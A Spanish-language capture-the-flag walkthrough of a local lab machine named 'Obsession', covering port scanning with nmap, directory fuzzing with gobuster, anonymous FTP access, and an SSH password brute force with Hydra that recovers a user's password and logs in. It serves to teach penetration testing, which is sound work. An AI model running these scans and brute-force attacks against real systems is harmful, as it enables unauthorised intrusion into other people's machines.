 # Obsession
![image](https://github.com/user-attachments/assets/f802b7b6-123e-447a-b256-1b4ca7050e52)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```
Como tenemos abierto el puerto 21,22,80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p21,22,80 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p21,22,80`: Escaneo de los puertos.
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0             667 Jun 18 03:20 chat-gonza.txt
|_-rw-r--r--    1 0        0             315 Jun 18 03:21 pendientes.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:05:bd:a9:97:27:a5:ad:46:53:82:15:dd:d5:7a:dd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBICJkT7eK4HDkyFx9Sdx52QBKAlOxD2HlDN9dnPLkFaFXa2pI5bRqIRDmJLAkBTyyx2/ifDUCyl0uGyB2ExHvQ8=
|   256 0e:07:e6:d4:3b:63:4e:77:62:0f:1a:17:69:91:85:ef (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFYEzfToqDm7m3dRLdvXwcIhNZzbIgwquUJvnII1jjJn
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Russoski Coaching
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
```
Utilizamos **gobuster** para hacer fuzzing y ver si encontramos algo que nos pueda ser útil.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
Mientras gobustar hace el esceno nos conectamos al **FTP** como *anonymous* y password da igual lo que pongamos, y nos descargamos los dos ficheros que están ahí.
```
ftp 172.17.0.2
mget *
```
Parece que en los ficheros no hay nada interesante, así que vemos el resultado del escaneo que habíamos dejado con **gobuster** y encontramos un direcotrio llamado **/backup**.
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 5208]
/backup               (Status: 301) [Size: 309] [--> http://172.17.0.2/backup/]
/important            (Status: 301) [Size: 312] [--> http://172.17.0.2/important/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
```
Dentro del direcctorio **/backup** hay un archivo *.txt* que si lo abrimos tenemos imformación importante.

![image](https://github.com/user-attachments/assets/565355b9-55c3-4d29-9fd1-dc688c1c32d1)

Ya tenemos un posible usuario ***russoski***, así que como teníamos el puerto 22 abierto vamos a probar con hydra y fuerza bruta a conectarnos.
```
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
Obtenemos la contraseña **iloveme** y nos conectamos con el usuario **russoski**

![image](https://github.com/user-attachments/assets/3783b387-3dc9-453a-a250-bbaea68587bf)

```
ssh russoski@172.17.0.2
```
![image](https://github.com/user-attachments/assets/9845a17f-484d-46fc-8ec5-40acc68ed421)
